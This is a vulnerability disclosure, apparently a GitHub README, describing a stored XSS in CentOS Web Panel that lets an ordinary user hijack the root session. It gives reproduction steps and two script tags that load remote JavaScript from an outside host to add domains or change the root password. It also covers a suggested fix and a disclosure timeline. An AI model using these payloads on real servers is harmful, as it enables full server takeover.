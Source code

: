 Exploiting an XSS vulnerability in the CWP control panel and escalating the attack to change the root password...

# Information

```
# Exploit Title       : CWP (CentOS Control Web Panel) Version 0.9.8.1031 - XSS to full root takeover
# Date                : 7 january 2021
# Exploit Author      : Chokri B.A.
# Vendor Homepage     : https://control-webpanel.com/
# Software Link       : Not available, user panel only available for lastest version
# Version             : 0.9.8.1031
# Tested on           : CentOS 7 / CentOS 6
# CVE                 : #
```

# Description
A simple user can add/delete/modify any option on behalf of the root user, and even change the root's password via a stored XSS vulnerability.

#  Steps to Reproduce
1. Login into the CentOS Web Panel using user credential
2. Create a new cron job using your prefered XSS payload.
3. Login as root and navigate to the list of cronjobs
4. the XSS payload will get executed.

#  Escalating
I've created 2 examples on how you can escalate this attack to take control of the full server.

1. <b>PayloadAddDomain.js</b> : add this code as your cronjob, when the root user list the cronjobs, a new domain name will be added under the choosen user.
``` 
<script type="text/javascript" src="https://raw.githubusercontent.com/TnExperts/cwppoc/main/PayloadAddDomain.js"></script>
```


2. <b>PayloadChangeRootPass.js</b> add this code as your cronjob, when the root user list the cronjobs, you will be able to change to root's password and take control of the full server.
``` 
<script type="text/javascript" src="https://raw.githubusercontent.com/TnExperts/cwppoc/main/PayloadChangeRootPass.js"></script>
```


3. You can perform any action you want as the root user. The only limit is your imagination....

#  Solution - Fix & Patch
The vulnerability can be patched by a secure parse and encode of the vulnerable input fields.
Disallow usage of special chars and restrict the parameter input to prevent application-side script code injection attacks.
Filter in the output error or the item listing the vulnerable location were the code executes.


#  Timeline

```
2021-01-07: Discovered the bug
2021-01-08: Reported to vendor
#: Vender accepted the vulnerability
#: The vulnerability has been fixed
#: Published
```
